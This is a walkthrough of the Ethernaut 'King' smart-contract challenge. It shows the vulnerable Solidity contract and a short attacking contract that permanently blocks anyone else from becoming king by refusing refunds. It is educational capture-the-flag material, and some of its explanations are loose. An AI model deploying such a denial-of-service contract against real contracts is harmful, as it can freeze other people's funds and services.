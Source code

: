 +++
title = "King - Ethernaut"
date = "2022-01-07"
author = "DimitrisV"
+++
We have a smart contract game called Kings. This contract is a classic example of a ponzi scheme. 
Whoever sends an amount of ether that is more than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

It should be mentioned here that when we will try to submit King.sol instance back to level, Ethernaut will call the fallback function to regain Kingship. As we can understand, we have to find a way to guarantee that all Ethernaut's transactions will fail, so we can remain as a King. Let's check the code into fallback function:
```
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
 ```
 
 The fallback is an external payable and has as a requirement to be called that the sender sends a higher amount of ether than it is the current price and the msg.sender to be the owner. Then, all of the sended ether is transfered to king and we become the king and our value of ether is sets us the current prize. They key here is the "king.transfer()" method which can fail if the current king is a malicious contract and refuses to withdraw.
There are multiple ways for transactions to fail, but most of the time we have these 3 options:
* Out Of Gas Errors: The receiving contract has a malicious payable function that consumes a large amount of gas, which fails the transaction or over-consumes the gas limit. However cannot make the internal call here as there is not really something we can control.
* Arbitrary Error from FallBack Function. If our transaction ends up executing code from a contract that can always fail.
* Transact with Contract with no fallback function or a non payable fallback function. When a transaction is made towards a contract address without including any data the fallback function of that contract is called. If a contract does not have a fallback function, it will fail. Also, It will fall if  we send some ether in a transaction without a payable modifier in the fallback.
* So, we can create a contract with a function that will send ether to the original contract, however without a fallback function so that the king contract cannot send money back.
We create and deploy a malicious smart contract with at least 1 Ether on it.
 
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

contract KingAttack {

  function doYourThing(address _target) public payable {
    (bool result,) = _target.call{value:msg.value}("");
    if(!result) revert("MyBad");
  }

  
}
```

This script has a payable function which will send an ether to the contract. As the original smart contract has a payable external fallback function, but it has requirements in order to be executed, it will fail as it will can't handle the 1 ether that we sent it from the attacking contract. As a result, we will become the king forever.

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

- [Smart Contract Security: Dimitris Vagiakakakos, Stavros Gkinos, Ioannis Karvelas](https://github.com/sv1sjp/eVoting_Elections_Decentralized_App/blob/main/smartcontract_security_paper.pdf)


* [Smart Contract Security - Educational YouTube Series in Greek - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)

